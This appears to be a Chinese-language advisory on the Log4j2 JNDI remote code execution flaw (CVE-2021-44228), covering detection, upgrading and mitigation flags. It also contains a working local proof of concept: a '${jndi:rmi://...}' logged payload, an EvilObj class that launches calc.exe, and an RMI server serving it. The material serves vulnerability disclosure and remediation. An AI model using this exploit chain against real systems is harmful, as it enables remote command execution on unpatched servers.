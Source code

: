 # Apache log4j2 远程命令执行漏洞

## 1. 漏洞信息

漏洞软件： Apache Log4j2

漏洞编号：CVE-2021-44228

漏洞描述：Apache Log4j2 远程命令执行

时间：2021-11-26

漏洞详情：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228

漏洞影响范围版本：2.0.beta9 to 2.14.1



## 2. 排查指导

查看引用了 `log4j-api` 和 `log4j-core` 两个jar包，如maven依赖：

```xml
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
```

## 3. 修复方案

升级到 2.15.0 版本



## 4. 缓解措施

### 2.10 <= 版本 <= 2.14.1

以下方法任选一种：

1. 添加jvm参数：`-Dlog4j2.formatMsgNoLookups=true`
2. 在应用classpath下添加文件`log4j2.component.properties`，添加配置`log4j2.formatMsgNoLookups=true`
3. 添加系统环境变量 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`



### 2.0-beta9 <= 版本 < 2.10

在classpath中移除JndiLookup 

```shell
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```



参考官网信息：

![官网信息](https://img-blog.csdnimg.cn/7a94b6abe9ff4e69b1063e43e908b2b0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5p2o5bCP54aK55qE56yU6K6w,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)



# 参考信息

[1. Apache Log4j2 官网漏洞信息](https://logging.apache.org/log4j/2.x/security.html)

[2. 缓解措施，环境变量名称应该为LOG4J_FORMAT_MSG_NO_LOOKUPS](https://github.com/apache/logging-log4j2/pull/614)

[3. Apache Log4j2 github地址](https://github.com/apache/logging-log4j2)

[4. 复现代码](https://github.com/YoungBear/log4j2demo)



# 复现代码

## 1. pom依赖

```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```

## 2. 被攻击代码

```java
package com.example.log4j2demo;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Demo {
    private static final Logger LOGGER = LogManager.getLogger(Log4j2Demo.class);


    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.out.println("begin of print log...");

        String logContent = "${jndi:rmi://127.0.0.1:1099/evil}";
        LOGGER.error("hello, {}", logContent);

        System.out.println("end of print log...");

    }
}
```



## 2. 恶意代码(以启动计算器为例)

```java
package com.example.log4j2demo;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.util.Hashtable;

public class EvilObj implements ObjectFactory {

    static {
        System.out.println("begin to run EvilObj static code...");

        try {
            Process p = Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc.exe"});
            InputStream inputStream = p.getInputStream();
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            }
            p.waitFor();
            inputStream.close();
            reader.close();
            p.destroy();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("getObjectInstance of EvilObj ...");
        return null;
    }

}

```



## 4. RMIServer

```java
package com.example.log4j2demo;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            System.out.println("Create RMI registry on port 1099...");

            String className = "com.example.log4j2demo.EvilObj";
            Reference reference = new Reference(className, className, className);
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("evil", referenceWrapper);
            System.out.println("registry bind ...");

        } catch (Exception e) {
            e.printStackTrace();

        }
    }
}

```

